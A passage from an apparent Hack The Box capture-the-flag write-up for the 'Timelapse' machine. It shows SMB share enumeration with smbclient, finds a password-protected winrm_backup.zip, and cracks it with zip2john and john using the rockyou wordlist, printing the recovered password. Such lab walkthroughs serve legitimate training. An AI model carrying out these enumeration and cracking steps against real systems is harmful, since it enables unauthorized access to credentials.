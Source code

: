 Looking at the ```Shares``` share we have two directories ```Dev``` and ```HelpDesk```

```bash
smbclient \\\\10.10.11.152\\Shares

Password for [WORKGROUP\saad]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

```

The ```HelpDesk``` directory has some files related to ```LAPS```. But nothing seems useful for now.

```bash
smb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021
```

The ```Dev``` directory has a file ```winrm_backup.zip``` which we can analyze.

```bash
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021
```

## Foothold

The ```zip``` file is password protected which we can crack using ```john```.

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ zip2john winrm_backup.zip > john.hash
```
```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ john --wordlist=/home/saad/Documents/wordlists/rockyou.txt john.hash                 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:01 DONE (2022-08-18 04:50) 0.6535g/s 2267Kp/s 2267Kc/s 2267KC/s surkerior..suppamas
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
